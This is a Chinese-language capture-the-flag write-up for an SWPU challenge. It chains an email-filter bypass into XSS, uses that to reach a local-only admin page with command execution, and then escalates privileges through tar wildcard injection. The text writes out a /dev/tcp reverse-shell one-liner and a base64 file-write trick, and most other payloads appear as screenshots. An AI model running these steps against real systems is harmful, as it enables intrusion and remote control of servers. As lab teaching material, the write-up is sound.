 > 原文链接: https://www.anquanke.com//post/id/168199 


# swpu ctf 有趣的邮箱注册 详细题解


                                阅读量   
                                **237098**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">3</a>
                                </b>
                                                                                                                                    ![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)
                                                                                            



[![](https://p3.ssl.qhimg.com/t0190f15ca83aebe069.gif)](https://p3.ssl.qhimg.com/t0190f15ca83aebe069.gif)

> 不得不说，swpu的师傅们出题还是很用心的，这道题目就很不错，既有前端xss，又有后端提权，可谓是非常全面了，下面我们就简单分析一下

题目地址为: [http://118.89.56.208:6324](http://118.89.56.208:6324)

## 邮箱验证

首先打开题目，发现功能只有两个，一个是验证邮箱，另一个是管理后台，但是管理后台需要本地，那突破点就在邮箱验证了。

[![](https://p3.ssl.qhimg.com/t01af3d7e2a45d185a8.png)](https://p3.ssl.qhimg.com/t01af3d7e2a45d185a8.png)

尝试提交邮箱，发现了代码泄露，给出了过滤方式：

[![](https://p3.ssl.qhimg.com/t0186721a5e659e1de6.png)](https://p3.ssl.qhimg.com/t0186721a5e659e1de6.png)

于是开始尝试在email处尝试xss，经过google，发现了几种绕过，尝试了一下，发现只要使用`"poc"[@qq](https://github.com/qq).com`类似的方法，就可以绕过过滤，然后构造xss的payload如下：

[![](https://p4.ssl.qhimg.com/t014b1b09ffb9e6df54.png)](https://p4.ssl.qhimg.com/t014b1b09ffb9e6df54.png)

可以收到请求.

[![](https://p5.ssl.qhimg.com/t01b413fa044a1af410.png)](https://p5.ssl.qhimg.com/t01b413fa044a1af410.png)



## 攻击local web

既然有了xss，我们首先读一下admin页面源码：

js构造如下：

[![](https://p0.ssl.qhimg.com/t01b620c50eea5468fa.png)](https://p0.ssl.qhimg.com/t01b620c50eea5468fa.png)

然后收到请求，解码如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01e0bd456ffd190c2f.png)

在页面中，发现了疑似命令执行的页面，尝试构造请求：

[![](https://p0.ssl.qhimg.com/t01b6b4f9745516fced.png)](https://p0.ssl.qhimg.com/t01b6b4f9745516fced.png)

很快收到了结果：

[![](https://p4.ssl.qhimg.com/t01f6e455b694fc37e3.png)](https://p4.ssl.qhimg.com/t01f6e455b694fc37e3.png)

但是一直这么请求，执行命令很麻烦，不如反弹个shell



## 反弹shell

这里直接用命令弹shell是很难成功的，因为有多重编码要考虑，因此采用写sh文件，然后执行sh文件弹shell的办法：

首先使用的写文件的技巧就是，base64

```
echo 'bHM=' | base64 -d &gt; /tmp/xjb.sh
```

这个办法能很好的绕过很多编码，同理我们只要将`/bin/bash  -i &gt; /dev/tcp/ip/port 0&lt;&amp;1 2&gt;&amp;1`编码一下，然后放到上面的命令中，就可以成功将反弹shell的命令写入到文件中。

然后执行：

```
/bin/bash /tmp/xjb.sh
```

就可以成功弹到shell。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01119dd181e5072b0e.png)



## flag读取不了？

我们查看了一下flag，发现我们并没有办法读取，没有权限，只有flag用户才能读。

继续翻发现了一个新目录：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t010a222b74e97ae33c.png)

进入以后，发现了一个新的web应用，看下权限：

[![](https://p3.ssl.qhimg.com/t01b2ac37718e0b8da9.png)](https://p3.ssl.qhimg.com/t01b2ac37718e0b8da9.png)

只有backup.php 可以看，代码如下：

[![](https://p3.ssl.qhimg.com/t013f54ac8fe051036e.png)](https://p3.ssl.qhimg.com/t013f54ac8fe051036e.png)

访问目录发现有上传和备份的功能，备份代码给出了。



## 分析思路

既然现在我们没有办法直接读取flag，那就只能让flag用户或者高权限用户帮我们读了，看了看这个tar命令，总觉得不对，在搜索中发现利用tar来提权执行脚本的操作，具体文章戳[这里](https://blog.csdn.net/qq_27446553/article/details/80943097).

正如文章中讲到，使用tar命令可以配合执行自定义脚本，那这个看似没有可控点的命令执行，就变得可以利用了：

[![](https://p0.ssl.qhimg.com/t0184155c4c2f4b032c.png)](https://p0.ssl.qhimg.com/t0184155c4c2f4b032c.png)

攻击思路整理如下：

[![](https://p0.ssl.qhimg.com/t01c9641d10bb8a6ce9.png)](https://p0.ssl.qhimg.com/t01c9641d10bb8a6ce9.png)



#### <a class="reference-link" name="%E5%88%B6%E4%BD%9C%E4%B8%8A%E4%BC%A0%E6%81%B6%E6%84%8F%E6%96%87%E4%BB%B6"></a>制作上传恶意文件

使用文章中的命令，制作恶意文件名的文件：

[![](https://p5.ssl.qhimg.com/t01ccacea3cd5f08039.png)](https://p5.ssl.qhimg.com/t01ccacea3cd5f08039.png)

其中1.sh 的内容是：

[![](https://p2.ssl.qhimg.com/t01bc2f3fd900468b2c.png)](https://p2.ssl.qhimg.com/t01bc2f3fd900468b2c.png)



## 备份触发bash脚本，获取flag

只要访问backup.php ，即可成功触发漏洞，获取flag

[![](https://p5.ssl.qhimg.com/t013c7828b348cb8f07.png)](https://p5.ssl.qhimg.com/t013c7828b348cb8f07.png)

[![](https://p2.ssl.qhimg.com/t01130d1fb4fc4c15b9.png)](https://p2.ssl.qhimg.com/t01130d1fb4fc4c15b9.png)



## 后记

题目做完，思路可以总结为 bypass FILTER_VALIDATE_EMAIL然后xss，攻击只有本地才能访问的local web应用，从而拿到机器shell，然后继续攻击内网web题目，使用tar提权查看flag，确实学到了不少东西，如果有别的思路可以同样交流探讨。
